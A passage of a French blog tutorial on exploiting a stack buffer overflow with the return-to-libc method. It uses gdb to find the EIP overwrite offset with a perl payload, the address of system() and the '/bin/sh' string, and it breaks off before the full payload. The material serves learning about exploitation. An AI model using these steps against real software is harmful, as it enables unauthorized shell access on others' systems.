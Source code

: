 
Je ne vais pas revenir sur les bases de l'overflow expliquées dans les articles précédents. Dans gdb, nous trouvons le nombre exact de caractères à envoyer pour réécrire EIP


{% highlight sh %}
gdb$ r $(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"')
AAAAAAAAAAAAAAAAAAAAﾭ�

Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
  EAX: 0x00000019  EBX: 0xB7FCEFF4  ECX: 0xB7FCF4E0  EDX: 0xB7FD0360  o d I t s Z a P c
  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xBFFFF360  EIP: 0xDEADBEEF
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002BError while running hook_stop:
Cannot access memory at address 0xdeadbeef
0xdeadbeef in ?? ()
{% endhighlight %}


Il faut donc 20 octets de buffer, puis les 4 octets suivants remplacent la sauvegarde de `EIP`, ce qui fait qu'au retour de la fonction (l'instruction `RET` effectuant un `POP EIP` puis `JMP EIP`), le programme plante car il ne peut pas accéder à l'adresse fournie, `0xdeadbeef` ici.


Rappelons que nous voulons mettre la stack dans l'état suivant :


[![img_5562069a3bd6f]({{ site.baseurl }}assets/uploads/2015/05/img_5562069a3bd6f.png)]({{ site.baseurl }}assets/uploads/2015/05/img_5562069a3bd6f.png)


Nous venons de trouver l'adresse de la sauvegarde de `EIP`, il s'agit maintenant de trouver l'adresse de la fonction `system()`.  Pour cela, rien de plus simple, il suffit de lancer la commande `print system` ou `p system` dans gdb


{% highlight sh %}
gdb$ p system
$1 = {<text variable, no debug info>} 0xb7ea9e20 <system>
{% endhighlight %}


L'adresse de la fonction `system` est donc `0xb7ea9e20`.


Vient alors le tour de la chaine de caractère `"/bin/sh"`. Dans un premier temps, il peut être possible de trouver cette chaine de caractères de manière un peu brutale mais rapide (merci <strong>Mastho</strong> pour l'astuce !), via la commande suivante dans gdb :


{% highlight sh %}
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7fa92e8
warning: Unable to access target memory at 0xb7fd03f0, halting search.
1 pattern found.
{% endhighlight %}


Cette commande effectue une recherche dans une plage mémoire commençant au début de la fonction `__libc_start_main()` (appelée avant notre fonction `main`), et d'une taille de 99 999 999 octets (Pour être sûr). Oui la méthode est violente mais elle a le mérite d'être rapide ! Nous avons donc un endroit dans la mémoire où se situe la chaine recherchée, à l'adresse `0xb7fa92e8` ! Pour nous en convaincre :
